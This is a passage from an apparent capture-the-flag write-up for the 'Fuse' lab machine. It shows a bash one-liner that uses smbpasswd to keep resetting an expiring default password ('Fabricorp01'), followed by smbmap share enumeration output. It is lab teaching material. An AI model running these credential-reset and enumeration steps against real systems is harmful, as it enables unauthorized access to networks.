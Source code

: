 
### Enumeration

#### Automation

Now I want to enumerate as bhult, but it turns out that the password resets to
the default with the required change flag every minute, so I’ll need to work
fast. I’ll write a one-liner that will check the current password, and if it
fails, get a new password and change it. Then I can run commands using `$pass`
as the password.

My one-liner is:

    
    
    if echo "$pass" | smbclient -L //10.10.10.193 -U bhult 2>/dev/null >/dev/null; then echo "Password $pass still good"; else pass=$(date +%s | md5sum | base64 | head -c7; echo .); (echo 'Fabricorp01'; echo "$pass"; echo "$pass";) | smbpasswd -r 10.10.10.193 -s bhult; echo "password reset to $pass"; fi; [command here]
    

With some white-space added:

    
    
    if echo "$pass" | smbclient -L //10.10.10.193 -U bhult 2>/dev/null >/dev/null; then 
      echo "Password $pass still good"; 
    else 
      pass=$(date +%s | md5sum | base64 | head -c7; echo .); 
      (echo 'Fabricorp01'; echo "$pass"; echo "$pass";) | 
        smbpasswd -r 10.10.10.193 -s bhult; 
      echo "password reset to $pass"; 
    fi; 
    [command here]
    

It first tries to list shares on 10.10.10.193 using `smbclient`, with all the
output going to `/dev/nul`. If that’s successful, then the password is still
good. Otherwise, it creates a new password, and then changes us using
`smbpasswd`. So now I can just up arrow to get this line, and add whatever
command I want to run to the end.

#### SMB

The first thing I need to do is list the shares now accessible via bhult. I’m
using the one-liner above, but for the sake of this post, I’ll just show just
the command run:

    
    
    root@kali# [pass check] smbmap -H 10.10.10.193 -u bhult -p "$pass"
    Password changed for user bhult on 10.10.10.193.
    password reset to YTQwMTd.
    [+] Finding open SMB ports....
    [+] User SMB session established on 10.10.10.193...
    [+] IP: 10.10.10.193:445        Name: fuse.fabricorp.local                              
            Disk                                                    Permissions     Comment
            ----                                                    -----------     -------
            ADMIN$                                                  NO ACCESS       Remote Admin
            C$                                                      NO ACCESS       Default share
            HP-MFT01                                                NO ACCESS       HP-MFT01
            IPC$                                                    READ ONLY       Remote IPC
            NETLOGON                                                READ ONLY       Logon server share
            print$                                                  READ ONLY       Printer Drivers
            SYSVOL                                                  READ ONLY       Logon server share 
    